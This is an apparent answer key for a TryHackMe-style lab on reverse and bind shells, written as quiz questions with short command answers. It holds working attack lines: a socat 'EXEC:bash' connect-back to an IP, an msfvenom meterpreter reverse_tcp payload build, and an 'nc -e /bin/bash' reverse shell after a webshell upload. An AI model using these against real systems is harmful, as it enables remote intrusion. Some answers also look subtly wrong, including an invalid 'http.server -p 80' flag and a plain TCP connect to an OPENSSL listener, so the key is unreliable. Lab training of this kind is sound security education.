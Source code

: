 # What the Shell?

- Read and understand the introduction.

	  no answer needed

- Read the above and check out the links!

	  no answer needed

- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

	- `R`

- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

	- `N`

- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

	- `T`

- Which option tells netcat to listen?

	- `-l`

- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	- `nc 10.10.10.11 8080`

- How would you change your terminal size to have 238 columns?

	- `stty cols 238`

- What is the syntax for setting up a Python3 webserver on port 80?

	- `sudo python3 -m http.server -p 80`

- How would we get socat to listen on TCP port 8080?

	- `TCP-L:8080`

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	- `socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0`

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	- `socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- What command can be used to create a named pipe in Linux?

	- `mkfifo`

- Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

	  no answer needed

- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

	  no answer needed

- Which symbol is used to show that a shell is stageless?

	- `_`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

- What command can be used to start a listener in the background?

	- `exploit -j`

- If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

	- `sessions 10`

- Read the WebShells information.

	  no answer needed

- Read the above information

	  no answer needed

- Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

	  no answer needed